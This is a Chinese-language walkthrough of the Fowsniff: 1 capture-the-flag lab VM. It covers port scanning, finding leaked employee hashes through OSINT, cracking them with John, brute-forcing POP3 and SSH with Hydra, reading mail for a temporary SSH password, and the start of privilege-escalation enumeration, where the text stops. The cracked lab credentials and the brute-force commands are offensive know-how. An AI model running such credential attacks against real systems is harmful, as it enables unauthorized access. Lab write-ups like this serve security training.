# 前言

### 靶场介绍

Fowsniff: 1 是一台以"社工 + 邮件服务渗透"为主线的中等难度 CTF 靶机。剧情背景是 Fowsniff Corp 遭遇数据泄露，员工密码被公开发布在 GitHub 上，攻击者需要利用这批泄露凭据，通过 POP3 邮件服务获取 SSH 临时密码，最终借助 MOTD 机制中的组可写脚本完成提权。

涉及知识点：
- 公开数据泄露追踪（OSINT / 社工）
- Hash 破解（John the Ripper，Raw-MD5）
- POP3 邮件协议手动交互
- Hydra 多服务爆破（POP3 / SSH）
- Linux 组权限分析
- MOTD（`/etc/update-motd.d/`）提权机制

### 靶场信息

| 字段     | 值                                                            |
| ------ | ------------------------------------------------------------ |
| 靶机名    | Fowsniff: 1                                                  |
| 靶机 IP  | 192.168.200.166                                              |
| 靶机 URL | https://www.vulnhub.com/entry/fowsniff-1,262/                |
| 下载（镜像） | https://download.vulnhub.com/fowsniff/Fowsniff_CTF_ova.7z   |

### 涉及工具

- nmap
- dirsearch
- john
- hydra
- telnet

### 思维导图



### 靶机环境配置

靶机无法正常获取 IP，参考以下教程进行修改：

[How To Solve Vulnhub VM Network Interface IP Issues](https://medium.com/@primeradsec/how-to-solve-vulnhub-vm-network-interface-ip-issues-79ff55b7573c)

---

# 1.信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.200.166 -oA ports
```



> 开放端口：22, 80, 110, 143

### 详细信息

```bash
nmap -sT -sV -sC -O -p22,80,110,143 192.168.200.166 -oA details
```



### 漏洞扫描

```text
# Nmap 7.95 scan initiated Sun May 31 08:52:32 2026 as: /usr/lib/nmap/nmap --privileged --script=vuln -p22,80,110,143 -oA vuln 192.168.200.166
Nmap scan report for 192.168.200.166 (192.168.200.166)
Host is up (0.00022s latency).

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
| http-enum: 
|   /robots.txt: Robots file
|   /README.txt: Interesting, a readme.
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
| http-sql-injection: 
|   Possible sqli for queries:
|     http://192.168.200.166:80/assets/js/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/ie/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/ie/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/ie/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/ie/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=M%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=S%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=D%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.200.166:80/assets/js/?C=N%3BO%3DA%27%20OR%20sqlspider
|_    http://192.168.200.166:80/assets/js/?C=D%3BO%3DA%27%20OR%20sqlspider
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
110/tcp open  pop3
143/tcp open  imap
MAC Address: 00:0C:29:63:9B:24 (VMware)

# Nmap done at Sun May 31 08:57:53 2026 -- 1 IP address (1 host up) scanned in 321.21 seconds
```

漏洞扫描结果中 HTTP 段的 SQL Injection 条目均为 dirsearch 爬取路径触发的误报，可忽略。真正有价值的信息是 `http-enum` 枚举出的几个可访问路径，以及开放的 POP3（110）和 IMAP（143）邮件服务端口。

## 1.2 Web 探测

访问靶机首页 `http://192.168.200.166/`：



页面内容明确提示了两个关键信息：

1. Fowsniff 的内部系统遭遇数据泄露，员工用户名和密码已外泄。
2. 官方推特账号 `@fowsniffcorp` 已被劫持。

就一个 html 页面，页面源码没有其他内容。

### 目录扫描

```bash
dirsearch -u "http://192.168.200.166/" -oA dirs.txt
```



```text
[08:57:48] 301 -  319B  - /assets  ->  http://192.168.200.166/assets/
[08:57:48] 200 -  473B  - /assets/
[08:57:54] 301 -  319B  - /images  ->  http://192.168.200.166/images/
[08:57:54] 200 -  509B  - /images/
[08:57:55] 200 -    6KB - /LICENSE.txt
[08:58:01] 200 -  774B  - /README.txt
[08:58:01] 200 -   26B  - /robots.txt
[08:58:02] 200 -  228B  - /security.txt
```

逐个访问扫描到的可用路径：

`http://192.168.200.166/robots.txt`



`http://192.168.200.166/README.txt` — 内容是网站模板版权信息，无有效内容。

```text
Escape Velocity by HTML5 UP
html5up.net | @ajlkn
Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)

.....
```

`http://192.168.200.166/assets/` — 网站的附件目录，有效内容很少，排查优先级不高。



`http://192.168.200.166/security.txt`



这个 `security.txt` 应该是黑客留下的文件，配合首页提到的推特被劫持，指向性很明确：去推特 `@FowsniffCorp` 上找泄露数据。

---
## 1.3 POP3 探测

结合扫描结果和 Web 信息，现在有两个探测方向：SSH（22）和 POP3 邮件服务（110）。

先确认 POP3 服务需要认证：

```bash
telnet 192.168.200.166 110
```

---
## 1.4 OSINT：追踪泄露密码

前面提示到存在员工用户的密码泄露。在这个靶机的首页泄露了说官方的推特账号被劫持了，于是我就去推特上搜了这个账号的内容。然后，第一条链接有一个人放了一个 GitHub 仓库，里面就是相关密码，我也不知道这种方法对不对啊，很神奇，这算社工的一种吗。后续我在推特上找到了这个官方的账号，不过源密码网站好像不能访问了，不过还好有人在github上fock下来了。

相关链接：
- https://pastebin.com/NrAqVeeX
- https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt
- https://x.com/FowsniffCorp



获取到一批 MD5 Hash，用 John 爆破：

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt
```



```bash
john --format=Raw-MD5 --show hash.txt
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```

提取用户名和密码列表，用于后续爆破：

```bash
# 提取用户名
cat hash_d.txt | grep @ | awk -F'@' '{print $1}'

# 提取密码
cat hash_d.txt | grep @ | awk -F':' '{print $2}'
```



---
# 2.权限立足

## 2.1 Hydra 爆破 POP3 / SSH

用提取好的用户名和密码列表，对两个服务同步爆破：

```bash
hydra -L username.txt -P password.txt pop3://192.168.200.166 -t 16 -V
hydra -L username.txt -P password.txt ssh://192.168.200.166 -t 4 -V
```

POP3 爆破命中：



```text
[110][pop3] host: 192.168.200.166   login: seina   password: scoobydoo2
```

SSH 爆破此阶段未命中成功。

## 2.2 POP3 读取邮件

用 `seina / scoobydoo2` 登录 POP3，手动拉取邮件：



POP3 常用命令：
- `LIST`：获取邮件列表
- `RETR <n>`：下载第 n 封邮件

参考：https://www.runoob.com/np/pop3-protocol.html

**第 1 封邮件（stone → 全体员工）：**

```text
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```

**第 2 封邮件（baksteen → seina）：**

```text
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.

```

第二封邮件侧面说明 baksteen 还没看 stone 的邮件，也就是**可能还没改 SSH 密码**。

> The temporary password for SSH is "S1ck3nBluff+secureshell"

---
## 2.3 SSH 登录

用 SSH 临时密码对全部用户名再次爆破：

```bash
hydra -L username.txt -p S1ck3nBluff+secureshell ssh://192.168.200.166 -t 16 -V
```

SSH 爆破结果：



```text
[22][ssh] host: 192.168.200.166   login: baksteen   password: S1ck3nBluff+secureshell
```

baksteen 没改密码，成功登录：

```bash
ssh baksteen@192.168.200.166
```





---

# 3.提权

## 3.1 信息收集

### sudo 权限

```bash
baksteen@fowsniff:~$ sudo -l
[sudo] password for baksteen:
Sorry, user baksteen may not run sudo on fowsniff.
```

### 计划任务

```bash
baksteen@fowsniff:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

crontab 均为标准系统任务，无可利用项。

### SUID 文件

```bash
baksteen@fowsniff:~$ find / -perm -u=s -type f 2>/dev/null
```

常规 SUID 二进制文件，无异常可利用项。

以上常规路径均未找到突破口。转向组权限方向排查。

## 3.2 组权限分析

查看当前用户所属组：

```bash
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```

baksteen 属于 `users` 组（该组下存在多名用户），查找该组可写文件：

```bash
baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null
```

